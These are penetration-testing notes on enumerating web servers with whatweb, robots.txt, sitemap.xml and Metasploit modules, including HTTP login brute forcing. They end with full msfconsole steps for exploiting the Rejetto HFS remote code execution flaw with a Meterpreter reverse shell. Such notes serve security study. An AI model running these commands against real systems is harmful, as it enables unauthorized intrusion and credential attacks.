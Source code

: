 **HTTP** (HyperText Transfer Protocol) is a protocol used for transferring data on the web. It operates in a client-server model, where the client (e.g., a browser) makes requests to the server for resources like web pages. 

## Wappalyzer
`Wappalyzer` is a web browser extension or add-on that provides information about the technologies used on a website. It helps identify the software frameworks, content management systems (CMS), e-commerce platforms, server software, analytics tools, and other technologies powering a website.

## whatweb
`WhatWeb` is a tool used to identify technologies and frameworks running on a website. It detects information such as web server type, CMS, programming languages, and plugins.

```bash
whatweb example.com
```

## robots.txt
The `robots.txt` file can be interesting from an offensive perspective because it often contains disallowed paths or directories that the website owner doesn’t want search engines to index. These paths might reveal sensitive files, hidden directories, or areas of the website that could serve as potential attack vectors.

Example:

- Access http://example.com/robots.txt → May reveal entries like /admin/ or /backup/ that can be explored further for vulnerabilities.

## sitemap.xml
The `sitemap.xml` file provides a list of all the important pages on a website, intended to help search engines index them efficiently.

**Example:**

- Access `http://example.com/sitemap.xml` → Displays URLs of pages, often including hidden or unlinked paths.

## Enumeration using Metasaploit
**Metasploit** offers several modules for enumerating HTTP services on a target.

- **Identify Web Server Version**: Use `http_version` to identify the version of the web server running on the target system. 
- **Enumerate Directories**: Use `dir_scanner` to scan for common directories on the web server (e.g., `/admin`, `/login`, `/uploads`). 
- **Analyze HTTP Headers**: Use `http_headers` to enumerate HTTP headers and potentially discover misconfigurations or hidden server details (e.g., `X-Powered-By`, `Server`).
- **Identify Web Server Methods**: Use `http_methods` to identify the allowed HTTP methods on the server (e.g., `PUT`, `DELETE`). This helps assess potential attack vectors for file uploads or deletion.
- **Scan for Sensitive Files**: Use `files_dir` to enumerate files on the server (e.g., `.bak`, `.php`, `.txt`). This helps discover sensitive files or backup files.
- **Brute Force HTTP Login**: Use `http_login` to perform brute force attacks against login pages or basic HTTP authentication, using username and password lists.
- **Check Robots.txt for Sensitive Information**: Use `robots_txt` to retrieve the `robots.txt` file and find hidden directories or files that should not be indexed by search engines but may still be accessible.
- **Identify SSL/TLS Version**: Use `ssl_version` to determine the SSL/TLS version supported by the server. This helps identify insecure protocols or misconfigurations.
- **Scan for Web Vulnerabilities**: Use `http_vuln` to scan for common web application vulnerabilities, such as SQL Injection, Cross-Site Scripting (XSS), and Local File Inclusion (LFI).
- **Enumerate HTTP Authentication Methods**: Use `http_enum` to identify different types of HTTP authentication mechanisms, such as digest authentication or basic auth.
- **Fingerprint Web Technologies**: Use `http_fingerprint` to identify the web application framework, web server, and other technologies being used, helping in vulnerability mapping.


```bash
use <module_name>
set RHOSTS <target IP>
run
```

## Rejetto HFS
Rejetto HFS (HTTP File Server) is a file-sharing application for Windows that provides an easy way to share files over HTTP. However, older versions of HFS (like 2.3 and 2.3c) are vulnerable to Remote Code Execution (RCE). Metasploit can exploit this vulnerability effectively.

#### Exploitation

```bash
msfconsole
search rejetto
use exploit/windows/http/rejetto_hfs_exec
set RHOST <target_ip>
set RPORT <target_port>
set TARGETURI /
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST <your_ip>
set LPORT <your_port>
run
```